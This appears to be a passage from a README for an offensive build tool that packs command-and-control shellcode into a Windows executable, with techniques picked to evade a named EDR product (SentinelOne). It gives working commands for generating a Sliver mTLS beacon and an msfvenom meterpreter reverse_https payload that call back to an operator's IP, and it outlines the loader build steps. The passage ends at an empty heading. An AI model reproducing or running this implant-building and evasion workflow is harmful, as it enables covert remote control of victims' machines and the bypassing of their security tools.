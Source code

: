 **Usage:**
```bash
python3 build_beacon.py -s payload.bin -t sentinelone -o beacon.exe
```

## Shellcode Sources

### Option 1: Sliver C2

```bash
# On C2 server
sliver> generate beacon \
    --mtls <your_ip>:8888 \
    --format shellcode \
    --os windows \
    --arch amd64 \
    --save /tmp/beacon.bin

# On build machine
scp user@c2-server:/tmp/beacon.bin ./
```

### Option 2: Msfvenom

```bash
msfvenom -p windows/x64/meterpreter/reverse_https \
    LHOST=<your_ip> \
    LPORT=443 \
    -f raw \
    -o meterpreter.bin
```

### Option 3: Mythic C2

```bash
# Generate beacon via Mythic UI
# Download shellcode.bin from Mythic
# Use with builder
```

## Build Process

The beacon builder performs the following steps:

1. **Dependency Check** - Verifies MinGW-w64 and Python availability
2. **Shellcode Loading** - Reads and validates input shellcode
3. **Technique Selection** - Loads EDR-specific technique modules
4. **Compilation** - Cross-compiles each technique to object files
5. **Loader Generation** - Creates dynamic loader with embedded shellcode
6. **Linking** - Links all object files into final executable
7. **Verification** - Confirms Windows PE32+ executable format

## Technical Details
